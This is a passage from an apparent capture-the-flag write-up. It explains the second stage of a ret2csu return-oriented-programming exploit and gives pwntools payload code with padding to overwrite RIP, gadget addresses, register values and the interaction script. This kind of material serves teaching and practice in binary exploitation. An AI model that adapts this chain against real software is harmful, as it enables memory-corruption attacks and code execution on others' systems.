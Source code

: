 Awesome! Everything seems to be right. Now, we will go through second payload:-

# Payload: Part 2

Now, this payload is crucial since this is where the actual `ret2csu` is, I'll try to explain as much as I can:-

```python

payload = b"A"*40 # Padding to `RIP` register
payload += p64(0x40068a) 

'''
0x000000000040068a <+90>:	pop    rbx
   0x000000000040068b <+91>:	pop    rbp
   0x000000000040068c <+92>:	pop    r12
   0x000000000040068e <+94>:	pop    r13
   0x0000000000400690 <+96>:	pop    r14
   0x0000000000400692 <+98>:	pop    r15
   0x0000000000400694 <+100>:	ret    

'''
payload += p64(0x00) # Passed to `rbx` register
payload += p64(0x01) # Passed to `rbp`
payload += p64(0x600e38) # Passed to `r12` 
payload += p64(writable_address) # Passed to `r13`
payload += p64(0x00) # Passed to `r14`
payload += p64(0x00) # Passed to `r15`

```

So, as you remember the following instructions:-

```r
   0x0000000000400670 <+64>:	mov    rdx,r15
   0x0000000000400673 <+67>:	mov    rsi,r14
   0x0000000000400676 <+70>:	mov    edi,r13d
```

That's why we provided the value we wanted in `rdx`, `rsi` and `rdi` to `r15`, `r14` and `r13` respectively. The values passed to `rbx` and `rbp` have their importance when we call next chain. But first, let's run the script and attach it to gdb such that we can check content registers:-

```python
payload += p64(0x00) # Passed to `rbx` register
payload += p64(0x01) # Passed to `rbp`
payload += p64(0x600e38) # Passed to `r12` 
payload += p64(writable_address) # Passed to `r13`
payload += p64(0x00) # Passed to `r14`
payload += p64(0x00) # Passed to `r15`

p.sendlineafter(b"warrior\n", "Robin")
pause()
p.sendlineafter(b"me?\n", payload)
p.interactive()
```
